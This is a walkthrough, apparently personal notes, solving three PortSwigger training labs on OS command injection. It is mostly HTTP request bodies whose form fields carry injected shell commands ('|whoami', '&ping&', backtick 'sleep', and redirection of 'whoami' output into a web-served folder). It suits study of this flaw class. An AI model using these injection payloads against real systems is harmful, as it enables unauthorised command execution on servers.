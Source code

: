 # 1. Lab: [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

The application executes a shell command containing user-supplied product and store IDs, _and returns the raw output from the command in its response._

To solve the lab, execute the _whoami_ command to determine the name of the current user.

```bash
productId=3&storeId=|whoami
```

# 2. Lab: [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

This lab contains a **blind** OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the **blind OS command injection** vulnerability _to cause a 10 second delay_.

for delay:

```bash
%26ping+-c+10+8.8.8.8%26
```

_csrf=_

```bash
csrf=NxepZ59AXw9X4UNfM9ngvV4EmVVHOknr&name=%26ping+-c+10+8.8.8.8%26&email=%26ping+-c+15+8.8.8.8%26&subject=hi&message=%26ping+-c+10+8.8.8.8%26
```

# 3. Lab: [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

This lab contains a blind OS command injection vulnerability in the _feedback function_.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use **output redirection** to capture the output from the command. There is a writable folder at:
**/var/www/images/**
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

in url: => GET /image?filename=7.jpg HTTP/2
save: => GET /image?filename=whoami.txt HTTP/2
create: whoami.txt
go to submit (feedback function)
find: POST /feedback/submit HTTP/2
in body

```javascript
csrf=8NQZN673b5Nb1qtVf5P4kFyAnz8Rw180&name=testname&email=2%4022&subject=hi&message=dddd
```

change to:

```js
csrf=8NQZN673b5Nb1qtVf5P4kFyAnz8Rw180&name=testname&email=2%4022&subject=hi&message=%26+`sleep+10`+%26
```

```js
payload:
%26+`sleep+10`+%26
```

send:

```js
csrf=8NQZN673b5Nb1qtVf5P4kFyAnz8Rw180&name=testname&email=2%4022&subject=hi&message=%26+`whoami+>+whoami.txt`+%26
```

```js
payload: `whoami+>+whoami.txt`
```

add before: whoami.txt => /var/www/images/ to payload
send:

```js
csrf=8NQZN673b5Nb1qtVf5P4kFyAnz8Rw180&name=testname&email=2%4022&subject=hi&message=%26+`whoami+>+/var/www/images/whoami.txt`+%26
```

go to url: => whoami.txt
send: GET /image?filename=whoami.txt HTTP/2
response: peter-4eggPb
